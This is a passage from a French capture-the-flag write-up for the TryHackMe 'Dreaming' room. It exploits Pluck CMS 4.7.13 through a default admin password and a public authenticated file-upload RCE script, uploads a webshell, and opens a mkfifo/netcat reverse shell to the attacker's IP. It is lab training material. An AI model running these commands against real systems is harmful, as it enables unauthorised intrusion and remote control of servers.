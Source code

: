 ```
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```
Il nous trouve une page **/app** qui contient le dossier **pluck-4.7.13**
Pluck est un CMS (Content Management System).

Visiblement le mot de passe par defaut fonctionne.

# Exploitation
Nous avons l'accès a la page admin du CMS, il existe une RCE concernant Pluck version 4.7.13.
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Dreaming]
└─$ searchsploit pluck 4.7.13                               
--------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                     |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)                                                                               | php/webapps/49909.py
--------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
Plus qu'a lancer l'exploit :
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Dreaming]
└─$ python3 49909.py 10.10.231.193 80 password /app/pluck-4.7.13 

Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://10.10.231.193:80/app/pluck-4.7.13/files/shell.phar
```
et nous voila avec un webshell :
```
              

        ___                         ____      _          _ _        _  _   
 _ __  / _ \__      ___ __  _   _  / __ \ ___| |__   ___| | |_ /\/|| || |_ 
| '_ \| | | \ \ /\ / / '_ \| | | |/ / _` / __| '_ \ / _ \ | (_)/\/_  ..  _|
| |_) | |_| |\ V  V /| | | | |_| | | (_| \__ \ | | |  __/ | |_   |_      _|
| .__/ \___/  \_/\_/ |_| |_|\__, |\ \__,_|___/_| |_|\___|_|_(_)    |_||_|  
|_|                         |___/  \____/                                  
                

            

p0wny@shell:…/pluck-4.7.13/files# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
On va s'ouvrir maintenant un vrai reverseshell.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.50.195 4444 >/tmp/f
```
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444                                                          
listening on [any] 4444 ...
```